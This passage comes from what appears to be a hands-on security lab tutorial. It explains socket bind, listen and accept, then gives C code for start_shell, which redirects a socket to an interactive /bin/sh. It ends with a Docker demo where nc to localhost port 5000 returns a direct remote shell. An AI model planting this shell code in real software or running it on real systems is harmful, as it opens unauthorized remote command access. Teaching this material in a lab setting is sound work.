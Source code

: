 The bind system call does not really make the socket a listening socket (you can actually call bind on a client socket). It is the listen system call the one that makes the socket a server socket. The second parameter passed to listen is the backlog. Basically it indicates how many connections will be queued to be accepted before the server starts rejecting connections. In our case it just do not really matter.

At this point, our server is setup and we can accept connections. The call to the accept system call will make our server wait for an incoming connection. Whenever it arrives a new socket will be created to interchange data with the new client.

Similar to the client, we also include `start_shell` and `main` as follows:

```C
int
start_shell (int s)
{
  char *name[3] ;

  dup2 (s, 0);
  dup2 (s, 1);
  dup2 (s, 2);

  name[0] = "/bin/sh";
  name[1] = "-i";
  name[2] = NULL;
  execv (name[0], name );
  exit (1);

  return 0;
}

int
main (int argc, char *argv[])
{
  /* FIXME: Check command-line arguments */
  start_shell (server_init (atoi(argv[1])));
  return 0;
}
```

### Direct Remote Shell
```bash
# terminal 1
docker run --privileged -it basic_cybersecurity6:latest
root@7e837bd2c6b2:~# ./server 5000


# terminal 2
# we figure out the running docker container's ID
docker ps
CONTAINER ID        IMAGE                         COMMAND             CREATED             STATUS              PORTS               NAMES
7e837bd2c6b2        basic_cybersecurity6:latest   "bash"              24 seconds ago      Up 23 seconds                           ecstatic_golick
# get a shell into the container
$ docker exec -it 7e837bd2c6b2 bash
# get a direct remote shell
root@7e837bd2c6b2:~# nc 127.0.0.1 5000
# ls
checksec.sh
client
client.c
rp++
server
server.c
```